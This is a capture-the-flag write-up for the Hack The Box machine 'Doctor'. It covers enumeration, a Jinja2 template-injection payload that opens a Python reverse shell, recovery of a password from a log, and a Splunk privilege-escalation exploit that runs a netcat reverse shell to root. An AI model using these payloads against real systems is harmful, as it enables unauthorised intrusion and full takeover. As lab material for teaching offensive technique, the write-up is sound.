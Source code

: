 # Doctor
This box is a Linux one made by egotisticalSW and its IP is 10.10.10.209.
Let's dive in.
We start by a complete nmap scan:

```
$ nmap -p- -sC -sV -oA nmap/complete 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.017s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 shows a website with some lorem ipsum. It discloses a new hostname:

```
Send us a message:
info@doctors.htb
```

We add both host names to our /etc/hosts file

```
$ echo "10.10.10.209    doctor.htb doctors.htb" >> /etc/hosts
```

We check the `doctors.htb` website, and access the "Doctor Secure Messaging"
web app. We register an account and check what's available to us.

```
Your account has been created, with a time limit of twenty minutes!
```

This webapp allows doctor to upload messages. A message has a title and content.
We'll gobuster the app to find every endpoints:

```
$ gobuster dir --url http://doctors.htb --wordlist ./raft-small-directories -x .php,.txt -c "session=..."
===============================================================
2020/12/01 11:00:15 Starting gobuster
===============================================================
/logout (Status: 302)
/login (Status: 302)
/register (Status: 302)
/home (Status: 200)
/archive (Status: 200)
/account (Status: 200)
```

/archive endpoint looks interesting, let's check it out:
Firefox serves a blank page, code shows an rss feed channel.
Let's try again with curl

```
$ curl http://doctors.htb/archive --cookie "session=.eJ..."

        <?xml version="1.0" encoding="UTF-8" ?>
	      <rss version="2.0">
	      	   <channel>
			<title>Archive</title>
				<item><title>Hello</title></item>

						</channel>

```

Same results as firefox. Looking at response headers i found this:

```
Server: Werkzeug/1.0.1 Python/3.8.2
```

I'm almost sure we are in the context of a Flask application, and are
looking at Server Side Template Injection.
We create a message with title "{{ 7 * 7 }}";
/archive endpoint names the entry "49". We have a confirmed SSTI.

From "PayloadAllTheThings" for Jinja2 (flask's template renderer)
we tried injecting "{{ config.items() }}" and exfil this, then prettified:

```
dict_items(
  [
      ('ENV', 'production'),
      ('DEBUG', False),
      ('TESTING', False),
      ('PROPAGATE_EXCEPTIONS', None),
      ('PRESERVE_CONTEXT_ON_EXCEPTION', None),
      ('SECRET_KEY', '1234'),
      ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)),
      ('USE_X_SENDFILE', False),
      ('SERVER_NAME', None),
      ('APPLICATION_ROOT', '/'),
      ('SESSION_COOKIE_NAME', 'session'),
      ('SESSION_COOKIE_DOMAIN', False),
      ('SESSION_COOKIE_PATH', None),
      ('SESSION_COOKIE_HTTPONLY', True),
      ('SESSION_COOKIE_SECURE', False),
      ('SESSION_COOKIE_SAMESITE', None),
      ('SESSION_REFRESH_EACH_REQUEST', True),
      ('MAX_CONTENT_LENGTH', None),
      ('SEND_FILE_MAX_AGE_DEFAULT', datetime.timedelta(seconds=43200)),
      ('TRAP_BAD_REQUEST_ERRORS', None),
      ('TRAP_HTTP_EXCEPTIONS', False),
      ('EXPLAIN_TEMPLATE_LOADING', False),
      ('PREFERRED_URL_SCHEME', 'http'),
      ('JSON_AS_ASCII', True),
      ('JSON_SORT_KEYS', True),
      ('JSONIFY_PRETTYPRINT_REGULAR', False),
      ('JSONIFY_MIMETYPE', 'application/json'),
      ('TEMPLATES_AUTO_RELOAD', None),
      ('MAX_COOKIE_SIZE', 4093),
      ('MAIL_PASSWORD', 'doctor'),
      ('MAIL_PORT', 587),
      ('MAIL_SERVER', ''),
      ('MAIL_USERNAME', 'doctor'),
      ('MAIL_USE_TLS', True),
      ('SQLALCHEMY_DATABASE_URI', 'sqlite://///home/web/blog/flaskblog/site.db'),
      ('WTF_CSRF_CHECK_DEFAULT', False),
      ('SQLALCHEMY_BINDS', None),
      ('SQLALCHEMY_NATIVE_UNICODE', None),
      ('SQLALCHEMY_ECHO', False),
      ('SQLALCHEMY_RECORD_QUERIES', None),
      ('SQLALCHEMY_POOL_SIZE', None),
      ('SQLALCHEMY_POOL_TIMEOUT', None),
      ('SQLALCHEMY_POOL_RECYCLE', None),
      ('SQLALCHEMY_MAX_OVERFLOW', None),
      ('SQLALCHEMY_COMMIT_ON_TEARDOWN', False),
      ('SQLALCHEMY_TRACK_MODIFICATIONS', None),
      ('SQLALCHEMY_ENGINE_OPTIONS', {})
  ]
)
```
Not much is interesting, except for the "doctor:doctor" mail credentials. We'll
have to check for some mail server on the box once in as user.

This payload allows us to get a reverse shell:
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.45\",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\"]);'").read()}}{%endif%}{% endfor %}

```

We got a shell on our netcat listener as user "web".
I've immediately added a ssh key to /home/web/.ssh/authorized_keys, then
logged in as web.
```
web@doctor:~$ ls
blog blog.sh
```

I'll upload linpeas.sh, then exfil the report;
Found some bcrypt hash. Difficulty: 12. FML.
Reading more on linpeas.out, found this:

```
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

We use that password to log in as `shaun`:

```
web@doctor:~$ su shaun
Password: Guitar123
shaun@doctor:~$ cat ~/user.txt | wc -c
33
```
We've owned user shaun. Moving on to privesc.
We start by running Linpeas.sh again as shaun for stuff we might have
missed with user "web".

After searching around about that splunk installation we saw during the
starting nmap scan, we find that Splunk should be vulnerable to
Local Privilege Escalation when ran from inside the box.
Testing Splunk API with Shaun's credentials shows we have the right creds
for using it.

Using a slightly modified version of this exploit, we're able to get privilege
escalation from a remote host:
https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py


```
python3 splunk_whisperer_remote.py --host doctor.htb --lhost 10.10.14.45 --lport 8989 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/bash '10.10.14.45' '4444'"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpun1bdjhh.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.45:8989/
10.10.10.209 - - [01/Dec/2020 22:29:20] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```

On our reverse shell:

```
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.10.209] 34154
cat /root/root.txt | wc -c
33
```

We've owned the root account.
